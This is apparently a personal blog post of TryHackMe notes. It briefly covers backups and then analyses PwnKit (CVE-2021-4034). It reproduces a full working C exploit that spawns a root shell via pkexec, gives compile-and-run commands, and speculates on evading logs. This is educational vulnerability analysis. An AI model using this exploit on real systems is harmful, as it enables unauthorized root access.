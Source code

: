 ```yaml
---
title: 'TryHackMe: Common Attacks &amp; Pwnkit'
date: 2022-02-03 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-02-03-tryhackme-common-attacks-and-pwnkit.html
author: 100007
---
```


# Common Attacks

## Public Network Safety

I really do wish that guides like this would stop highlighting VPNs – their utility is just really unclear for most people anymore!

## Backups

“3, 2, 1” is a good mnemonic for backups:

- THREE or more copies
- TWO or more different storage devices
- ONE or more offsite backups

Though honestly, this is kind of a “minimum viable backup” strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy…)

# Pwnkit (CVE-2021-4034)

## Exploitation

Quick-n-dirty Pwnkit exploit:

```
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`.

Here’s what basically happens on execution:

- The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
- The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set “PWNKIT”.
- The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 – so, not even to contain the name of `pkexec` itself) _but_ with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first “variable” in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
- Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that’s passed into `execve()`, which happens to be string `pwnkit`.
- Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. _Except_ that it’s still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
- Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. _But!_ Before dying, Polkit tries to _print_ the error using a GLib function that dutifully attempts to translate the message into the “PWNKIT” character set. To figure out how to do this, modules are loaded from GCONV\_PATH… And we’ve defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that “this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader.” My guess is that to do this you’d need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don’t immediately see any place where Polkit is printing something that _isn’t_ a warning before it nukes its own environment, but then I’m not super-familiar with C and am only quickly skimming the `pkexec` source code.) _Or_ perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it’s not obvious to me how to do this though, or even if it _can_ be done!)

It took me a while to figure out why this exploit doesn’t occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn’t happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn’t wrongly loaded _and_ and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It’s worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

- [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
- [pwnkit: Local Privilege Escalation in polkit’s pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
- [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)

